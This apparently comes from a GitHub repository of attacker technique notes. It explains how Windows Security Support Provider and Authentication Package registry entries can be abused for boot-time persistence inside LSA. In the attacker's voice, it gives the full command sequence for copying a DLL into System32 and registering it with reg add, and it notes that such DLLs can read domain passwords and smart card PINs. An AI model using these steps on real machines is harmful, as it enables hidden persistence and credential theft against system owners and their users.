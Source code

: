 ### Security Support Provider

Adversaries may abuse security support providers (SSPs) to execute DLLs when the system boots. Windows SSP DLLs are loaded into the Local Security Authority (LSA) process at the system start. Once loaded into the LSA, SSP DLLs have access to encrypted and plaintext passwords that are stored in Windows, such as any logged-on user's Domain password or smart card PINs.

The SSP configuration is stored in two Registry keys: HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages and HKLM\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\Security Packages. we can modify these Registry keys to add new SSPs, which will be loaded the next time the system boots, or when the AddSecurityPackage Windows API function is called

    note: 
    the dll must have a standard function exported "you can look at MSDN"

    copy "path to dll" c:\Windows\System32\
    reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa" /v "Security Packages"
    reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa" /v "Security Packages" /t REG_MULTI_SZ /d "dll name" /f

### Authentication Package
It's exactly the same with different keys.

    copy "path to dll" c:\Windows\System32\
    reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa" /v "Authentication Packages"
    reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa" /v "Authentication Packages" /t REG_MULTI_SZ /d "msv1_0"\0"name of dll" /f
